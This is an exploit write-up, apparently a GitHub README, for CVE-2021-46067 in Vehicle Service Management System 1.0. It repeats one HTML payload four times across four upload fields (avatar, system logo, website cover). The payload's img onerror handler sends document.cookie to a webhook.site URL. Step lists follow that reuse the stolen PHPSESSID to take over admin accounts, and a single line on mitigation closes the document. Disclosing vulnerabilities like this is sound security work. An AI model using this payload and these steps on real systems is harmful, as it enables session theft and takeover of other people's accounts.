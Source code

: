 # CVE-2021-46067

### Exploit Title: Vehicle Service Management System - 'Multiple' Cookie Stealing Leads to Full Account Takeover
### Exploit Author: <a href="https://www.plsanu.com">P.L.Sanu</a>
### CVE: CVE-2021-46067
### CVSS: 9.8 CRITICAL
### References: 
- https://www.plsanu.com/vehicle-service-management-system-multiple-cookie-stealing-leads-to-full-account-takeover
- https://nvd.nist.gov/vuln/detail/CVE-2021-46067
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-46067

### Description:
In Vehicle Service Management System 1.0 an attacker can steal the cookies leading to Full Account Takeover.

### 1. Vehicle Service Management System - 'MyAccount' (/admin/?page=user)

### Exploit:
1. Login to the admin panel http://localhost/vehicle_service/admin
2. Navigate to My Account section http://localhost/vehicle_service/admin/?page=user
3. Generate the Webhook URL - https://webhook.site
4. Copy the Webhook unique URL and paste it in the below html code.

### Payload:
```html
<!DOCTYPE html>
<html>
<title>Cookie Stealing</title>
<body>
<img src=x onerror="location.href='https://webhook.site/0d67f7b8-bbc7-4c41-9447-1f5dd07a2954?c='+ document.cookie">
</body>
</html>
```

5. Save the above html code For Ex:Cookie Stealing.html
6. In My Account Section enter all the required details and browse the html file in Avatar.
7. Click on update button.
8. Open the avatar image in new tab and check the Webhook status.
9. We got the request it contains PHPSESSID.
10. Copy the PHPSESSID value and open any another browser.
11. Visit the admin panel http://localhost/vehicle_service/admin
12. Check the cookie values and change the PHPSESSID value to copied PHPSESSID value.
13. Now access the admin panel http://localhost/vehicle_service/admin
14. Successfully loggedin to the account. Account Takeover Successful.

### 2. Vehicle Service Management System - 'User List' (/admin/?page=user/manage_user)

### Exploit:
1. Login to the admin panel http://localhost/vehicle_service/admin
2. Navigate to User List section and click on Create New button.
3. Generate the Webhook URL - https://webhook.site
4. Copy the Webhook unique URL and paste it in the below html code.

### Payload:
```html
<!DOCTYPE html>
<html>
<title>Cookie Stealing</title>
<body>
<img src=x onerror="location.href='https://webhook.site/0d67f7b8-bbc7-4c41-9447-1f5dd07a2954?c='+ document.cookie">
</body>
</html>
```

5. Save the above html code For Ex:Cookie Stealing.html
6. In Create New User Section enter all the required details and browse the html file in Avatar.
7. Click on Save button.
8. Open the avatar image in new tab and check the Webhook status.
9. We got the request it contains PHPSESSID.
10. Copy the PHPSESSID value and open any another browser.
11. Visit the admin panel http://localhost/vehicle_service/admin
12. Check the cookie values and change the PHPSESSID value to copied PHPSESSID value.
13. Now access the admin panel http://localhost/vehicle_service/admin
14. Successfully loggedin to the account. Account Takeover Successful.

### 3. Vehicle Service Management System - 'Settings-System Logo' (/admin/?page=system_info)

### Exploit:
1. Login to the admin panel http://localhost/vehicle_service/admin
2. Navigate to Settings section http://localhost/vehicle_service/admin/?page=system_info
3. Generate the Webhook URL - https://webhook.site
4. Copy the Webhook unique URL and paste it in the below html code.

### Payload:
```html
<!DOCTYPE html>
<html>
<title>Cookie Stealing</title>
<body>
<img src=x onerror="location.href='https://webhook.site/0d67f7b8-bbc7-4c41-9447-1f5dd07a2954?c='+ document.cookie">
</body>
</html>
```

5. Save the above html code For Ex:Cookie Stealing.html
6. In Settings Section enter all the required details and browse the html file in System Logo.
7. Click on update button.
8. Open the System Logo image in new tab and check the Webhook status.
9. We got the request it contains PHPSESSID.
10. Copy the PHPSESSID value and open any another browser.
11. Visit the admin panel http://localhost/vehicle_service/admin
12. Check the cookie values and change the PHPSESSID value to copied PHPSESSID value.
13. Now access the admin panel http://localhost/vehicle_service/admin
14. Successfully loggedin to the account. Account Takeover Successful.

### 4. Vehicle Service Management System - 'Settings-Website Cover' (/admin/?page=system_info)

### Exploit:
1. Login to the admin panel http://localhost/vehicle_service/admin
2. Navigate to Settings section http://localhost/vehicle_service/admin/?page=system_info
3. Generate the Webhook URL - https://webhook.site
4. Copy the Webhook unique URL and paste it in the below html code.

### Payload:
```html
<!DOCTYPE html>
<html>
<title>Cookie Stealing</title>
<body>
<img src=x onerror="location.href='https://webhook.site/0d67f7b8-bbc7-4c41-9447-1f5dd07a2954?c='+ document.cookie">
</body>
</html>
```

5. Save the above html code For Ex:Cookie Stealing.html
6. In Settings Section enter all the required details and browse the html file in Website Cover.
7. Click on update button.
8. Open the Website Cover image in new tab and check the Webhook status.
9. We got the request it contains PHPSESSID.
10. Copy the PHPSESSID value and open any another browser.
11. Visit the admin panel http://localhost/vehicle_service/admin
12. Check the cookie values and change the PHPSESSID value to copied PHPSESSID value.
13. Now access the admin panel http://localhost/vehicle_service/admin
14. Successfully loggedin to the account. Account Takeover Successful.

### Impact:
An attacker upload malicious html file it redirects to the third party website and cookies are exposed in the request. It leads to Full Account Takeover.

### Mitigation:
It is recommended to validate the file upload functionality and Perform Secondary Checks in the session.
